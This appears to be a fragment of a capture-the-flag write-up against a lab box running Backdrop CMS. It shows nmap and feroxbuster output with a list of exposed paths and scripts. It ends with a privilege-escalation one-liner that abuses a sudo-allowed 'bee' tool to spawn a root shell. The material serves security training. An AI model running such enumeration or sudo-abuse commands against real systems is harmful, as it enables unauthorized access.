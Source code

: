 
nmap -sV  10.10.11.58 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-17 04:56 CEST
Nmap scan report for 10.10.11.58
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds


feroxbuster -u http://10.10.11.58/ -w /usr/share/wordlists/seclists/PathBANGER.txt  -x php,sh 
gets us a shit ton of hits so here are some of the intersting ones
```
### 🧠 **Interesting Files (Potentially Sensitive or Useful Info)**

- `http://10.10.11.58/README.md`
    
- `http://10.10.11.58/settings.php` _(zero-length, but a common config file worth checking manually)_
    

---

### ⚙️ **Executable Scripts**

- `http://10.10.11.58/core/scripts/install.sh`
    
- `http://10.10.11.58/core/scripts/backdrop.sh`
    
- `http://10.10.11.58/core/scripts/generate-d7-content.sh`
    
- `http://10.10.11.58/core/scripts/dump-database-d7.sh`
    
- `http://10.10.11.58/core/scripts/password-hash.sh`
    
- `http://10.10.11.58/core/scripts/run-tests.sh`
    
- `http://10.10.11.58/core/scripts/test.script`
    

---

### 📂 **Config Files (JSON / YAML / etc.)**

Under `/files/config_*/active/`:

- All the `*.json` files here represent **Drupal/Backdrop config exports**, including:
    
    - `user.role.authenticated.json`
        
    - `system.core.json`
        
    - `user.role.administrator.json`
        
    - `filter.format.full_html.json`
        
    - `menu.menu.main-menu.json`
        
    - `layout.layout.home.json`
        
    - `user.mail.json`
        
    - `views.view.user_admin.json`
        
    - and many more...
        

These give a **full view of the site structure, roles, views, and content types**. Very useful.

---

### 🖼️ **User-uploaded Content (images, styles, etc.)**

- `/files/field/image/*.jpg`
    
    - `dog.jpeg`
        
    - `dog-animal_dotorlbdd7.jpg`
        
    - `dog-obesity.jpg`
        
    - `dog-food.jpg`
        
    - Suggests possible image upload functionality
        

---

### 🛠️ **Admin/Install/Update Pages**

- `http://10.10.11.58/core/install.php`
    
- `http://10.10.11.58/core/authorize.php` _(403, but still interesting)_
    
- `http://10.10.11.58/core/update.php` _(403)_
    
- `http://10.10.11.58/core/cron.php` _(403)_
    
- `http://10.10.11.58/index.php`
```



`   sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('/bin/sh');"   `